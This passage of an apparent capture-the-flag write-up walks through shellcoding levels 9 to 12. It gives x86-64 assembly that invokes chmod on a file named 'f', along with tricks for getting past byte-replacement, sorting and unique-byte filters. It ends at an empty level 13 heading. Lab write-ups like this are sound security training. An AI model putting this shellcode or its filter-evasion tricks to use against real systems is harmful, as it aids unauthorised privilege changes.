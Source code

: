 ### level9

This level will replace every other 10 bytes with `0xcc`, which is a system call for debugger resulting in a pause of execution. To keep my shellcode short, I decided to reuse the idea from `level8`. To avoid the debugger call, I can first put `nop` calls on the locations where the bytes will be replaced and simply jump over them with `jmp`. 

```asm
    mov word ptr [rsp], 0x0066
    jmp skip
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
skip:
    mov al, 90
    mov rdi, rsp
    mov sil, 7
    syscall
```

### level10

This level will sort my shellcode. Thing is tho... using the code from `level9` still worked here too since the code was already somehow sorted. That made my life easier!

### level11

The constraints are same as `level10`

### level12

This challenge requires my shellcodes' bytes to be all unique. My original `chmod` code failed, so investigating the bytes with `objdump` showed me that there were 2 `66` bytes. One of them was inevitable as it was an ascii character that represents `f`. Doing a little experiment and using `push` got rid of the other `66` byte.

```asm
    push 0x0066
    mov al, 90
    mov rdi, rsp
    mov sil, 7
    syscall
```

### level13
